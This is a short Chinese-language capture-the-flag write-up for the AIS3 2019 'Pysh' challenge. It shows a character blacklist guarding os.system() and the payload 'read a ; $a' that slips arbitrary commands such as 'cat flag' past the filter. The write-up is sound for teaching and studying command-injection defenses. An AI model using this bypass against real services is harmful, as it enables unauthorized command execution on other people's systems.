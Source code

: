 # AIS3 pre-exam 2019: Pysh

**Category:** Misc  
**Description:**  

>nc pre-exam-chals.ais3.org 10204  
>@kaibro

## Write-up

首先該題目有過濾掉一些字串，如下。

```python
black_list = "bcfghijkmnoqstuvwxz!@#|[]{}\"'&*()?01234569"
```

並且把他放到 `os.system()` 執行系統指令，問題就在於有許多字元被過濾了，常用的 `ls`、`cat` 等指令皆無法作用。  

首先嘗試將沒有被過濾的字元整理出來，有 `adelpr78$+`。  

由於 Linux 基礎缺缺，經過朋友偷偷提示，丟了「[Linux read 命令](http://www.runoob.com/linux/linux-comm-read.html)」連結給我，其餘的部分就是靠自己努力了。  

經過許多嘗試 Payload，模式大多如下。

```
read a
ls | $a

read -d ^ a
ls
$a^
```

最後嘗試出成功的 Payload 如下。

```
read a ; $a
ls

read a ; $a
cat flag
```

![](./img/01.png)